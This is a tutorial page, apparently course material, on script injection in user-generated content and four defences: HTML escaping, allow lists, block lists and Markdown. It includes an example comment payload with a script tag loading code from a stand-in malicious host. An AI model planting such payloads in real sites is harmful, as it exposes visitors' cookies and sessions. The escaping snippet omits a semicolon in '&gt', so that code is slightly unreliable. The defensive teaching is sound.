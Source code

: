 ```yaml
---
title: "Script Injection"
pre: "11. "
weight: 110
date: 2018-08-24T10:53:26-05:00
---
```


Whenever we render content created by users, we open the door to _script injection_, a kind of attack where a malicious user adds script tags to the content they are posting.  Consider this form:

```html
<form action="post">
   <label for="comment">
      <textarea name="comment"></textarea>
    </label>
    <input type="submit"/>
</form>
```

The intent is to allow the user to post comments on the page.  But a malicious user could enter something like:

```html
What an awesome site <script src="http://malic.ous/dangerous-script.js"></script>
```

If we concatenate this string directly into the webpage, we will serve the `<script>` tag the user included, which means that _dangerous-script.js_ will run on our page!  That means it can potentially access our site's cookies, and make AJAX requests from our site.  This script will run on the page for _all_ visitors!

This attack is known as [script injection](https://www.softwaretestinghelp.com/javascript-injection-tutorial/), and is something you **MUST** prevent. So how can we prevent it?  There are several strategies:

1. HTML Escaping
2. Block Lists
3. Allow Lists
4. Markdown or other Markup Languages

### HTML Escaping
The simplest is to "escape" html tags by replacing the `<` and `>` characters with their html code equivalents, `&lt;` (less than symbol) and `&gt;` (greater than symbol).  By replacing the opening and closing brackets with the equivalent HTML code, the browser will render the tags as ordinary strings, instead of as HTML.  Thus, the above example will render on the page as:

> What an awesome site &lt;script src="http://malic.ous/dangerous-script.js"&gt;&lt;/script&gt;

This can be accomplished in JavaScript with the [String.prototype.replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace) method:

```js
sanitizedHtmlString = htmlString.replace(/</g, '&lt;').replace(/>/g, '&gt');
```

The `replace()` method takes either a regular expression or string to search for - and a string to replace the occurrences with.  Here we use regular expressions with the global flag, so that _all_ occurrences will be replaced.  We also take advantage of the fact that it returns the modified string to do [method chaining](https://en.wikipedia.org/wiki/Method_chaining), invoking a second `replace()` call on the string returned from the first call.

The downside to this approach is that _all_ html in the string is reinterpreted as plain text.  This means our comments won't support HTML codes like `<b>` and `<i>`, limiting the ability of users to customize their responses.  

### Allow Lists 

Allow lists (also called "whitelists") are a technique to allow only certain tags to be embedded into the page.  This approach is more involved, as we must first _parse_ the HTML string the same way a browser would to determine what tags it contains, and then remove any tags that don't appear in our allow list.

Instead of writing your own code to do this, it is common practice to use a well-maintained and tested open-source library.  For example, the NPM package [sanitize-html](https://www.npmjs.com/package/sanitize-html) provides this ability.

### Block Lists 

Block lists (also called "blacklists") are a similar technique, but rather than specifying a list of _allowed_ tags, you specify a list of _disallowed_ tags.  These are then stripped from html strings.  This approach is slightly less robust, as new tags are added to the HTML standard will need to be evaluated and potentially added to the block list.

### Markdown or other Markup Languages

A final option is to have users write their contributions using Markdown or another markup language which is transformed _into_ JavaScript.  Markdown (used by GitHub and many other websites) is probably the best-known of these, and provides equivalents to bold, italic, headings, links, and images:

```md
# This is transformed into a h1 element 
## This is transformed into a h2 element
> This is transformed into a blockquote 
_this is italicized_ *as is this*
__this is bold__ **as is this**
* this
* is
* an 
* unordered 
* list
1. this
2. is 
3. a 
4. numbered
5. list
```

As it does not have conversions for `<script>` and other dangerous tags, HTML generated from it is relatively "safe" (it is still necessary to escape HTML in the original markup string though).

As with allow/block lists, Markdown and the like are usually processed with an outside library, like [markdown-js](https://www.npmjs.com/package/markdown).  There are similar libraries for most modern programming languages.